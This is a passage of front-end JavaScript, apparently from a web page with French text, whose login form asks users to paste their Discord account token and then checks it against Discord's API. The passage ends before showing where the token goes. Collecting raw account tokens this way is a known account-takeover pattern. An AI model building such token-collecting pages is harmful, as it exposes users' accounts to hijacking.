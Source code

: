       function togglePassword() {
        const input = document.getElementById('tokenInput');
        const icon = document.getElementById('eyeIcon');
        
        if (input.type === 'password') {
          input.type = 'text';
          icon.classList.remove('fa-eye');
          icon.classList.add('fa-eye-slash');
        } else {
          input.type = 'password';
          icon.classList.remove('fa-eye-slash');
          icon.classList.add('fa-eye');
        }
      }

      function showAlert(message, type) {
        const alert = document.getElementById('alert');
        const icon = document.getElementById('alertIcon');
        const text = document.getElementById('alertText');

        alert.className = 'alert alert-' + type;
        icon.className = type === 'error' 
          ? 'alert-icon fas fa-exclamation-circle' 
          : 'alert-icon fas fa-check-circle';
        
        text.textContent = message;
        alert.style.display = 'flex';
      }

      document.getElementById('loginForm').addEventListener('submit', async (e) => {
        e.preventDefault();

        const token = document.getElementById('tokenInput').value;
        const loginBtn = document.getElementById('loginBtn');
        const btnText = document.getElementById('btnText');
        const btnIcon = loginBtn.querySelector('.btn-icon');
        const joinBtn = document.getElementById('joinBtn');

        if (!token) {
          showAlert('⚠️ Veuillez entrer votre token Discord', 'error');
          return;
        }

        loginBtn.disabled = true;
        btnText.textContent = 'Vérification du token...';
        btnIcon.className = 'spinner';

        try {
          // Vérifier d'abord si le token est valide auprès de Discord
          const discordCheck = await fetch('https://discord.com/api/v10/users/@me', {
            headers: { 'Authorization': token }
          });

          if (!discordCheck.ok) {
            showAlert('❌ Token invalide ! Veuillez vérifier votre token Discord.', 'error');
            loginBtn.disabled = false;
            btnText.textContent = 'Se connecter';
            btnIcon.className = 'fas fa-rocket btn-icon';
            return;
          }
